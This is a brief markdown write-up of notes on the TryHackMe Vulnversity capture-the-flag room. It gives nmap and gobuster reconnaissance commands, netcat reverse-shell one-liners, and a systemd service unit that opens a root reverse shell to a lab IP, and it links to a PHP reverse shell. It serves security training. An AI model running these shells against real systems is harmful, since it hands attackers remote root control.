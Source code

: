 ```yaml
---
layout: md
title: TryHackMe Vulnversity CTF
description: Notes on tryhackme.com's vulnversity challenge
tags: ['security', 'tryhackme']
sort_key: 1
---
```


{% include project-headers.html %}

Use nmap to scan ports and try to find details about services and versions on those ports 
```bash
nmap -sV -sC <target>
```

Try bruteforce webpages/directories using [gobuster](https://github.com/OJ/gobuster)
```bash
gobuster dir -u <webapp> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

#### Netcat commands
```
nc -lvnp 4444 [> /path/to/file.ext]
nc -e /bin/bash <ip> <port>

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

```bash
[Unit]
Description=root-shell

[Service]
ExecStart=/bin/bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.5.114 4444 >/tmp/f"

[Install]
WantedBy=multi-user.target
```

[PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
